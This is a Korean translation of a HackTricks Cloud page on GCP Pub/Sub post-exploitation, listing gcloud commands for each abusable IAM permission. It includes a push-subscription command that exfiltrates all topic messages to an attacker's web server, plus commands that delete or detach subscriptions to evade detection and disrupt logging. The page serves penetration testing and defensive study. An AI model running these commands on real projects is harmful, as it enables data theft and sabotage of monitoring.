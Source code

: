 # GCP - Pub/Sub 후반 공격

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* HackTricks에서 **회사 광고를 보거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 자신의 해킹 기법을 공유하세요.

</details>

## Pub/Sub

Pub/Sub에 대한 자세한 정보는 다음 페이지를 참조하세요:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

주제에 메시지를 게시하여 **예기치 않은 데이터를 전송**하고 예기치 않은 기능을 트리거하거나 취약점을 이용하는 데 유용합니다:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

메시지 수신을 방지하기 위해 구독이 메시지를 받지 못하도록 하는 데 유용합니다. 감지를 피하기 위해 사용될 수 있습니다.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

구독이 메시지를 수신하지 못하도록 하기 위해 유용하며, 감지를 피하기 위해 사용될 수 있습니다.\
구독이 연결된 토픽을 삭제하는 것도 가능합니다.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

이 권한을 사용하여 `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`와 같은 토픽의 설정을 업데이트하여 중단시킬 수 있습니다.

### `pubsub.topics.setIamPolicy`

이전 공격을 수행할 수 있는 권한을 부여하세요.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

웹 서버에서 모든 메시지를 가져옵니다:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

구독을 생성하고 **메시지를 가져오기** 위해 사용하세요:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**구독 삭제**는 로그 처리 시스템을 방해하는 데 유용할 수 있습니다.
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### &#x20;`pubsub.subscriptions.update`

이 권한을 사용하여 메시지가 액세스할 수 있는 위치(URL, Big Query 테이블, Bucket)에 저장되도록 설정하거나 그것을 방해하는 데 사용할 수 있습니다.

### `pubsub.subscriptions.setIamPolicy`

이전에 언급된 공격을 수행하는 데 필요한 권한을 부여하세요.

### `pubsub.schemas.delete`

스키마를 삭제하여 스키마를 충족시키지 않는 메시지를 보낼 수 있습니다.
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

주제에 스키마를 연결하여 메시지가 스키마를 충족시키지 않도록 하여 주제를 방해합니다.\
스키마가 없는 경우 스키마를 생성해야 할 수도 있습니다.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.setIamPolicy`

이전에 주석 처리된 공격을 수행하기 위해 필요한 권한을 자신에게 부여합니다.

### `pubsub.snapshots.create`,  `pubsub.snapshots.seek`

이는 모든 확인되지 않은 메시지의 스냅샷을 생성하고 구독에 다시 넣습니다. 공격자에게는 그다지 유용하지 않지만 여기에 있습니다:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
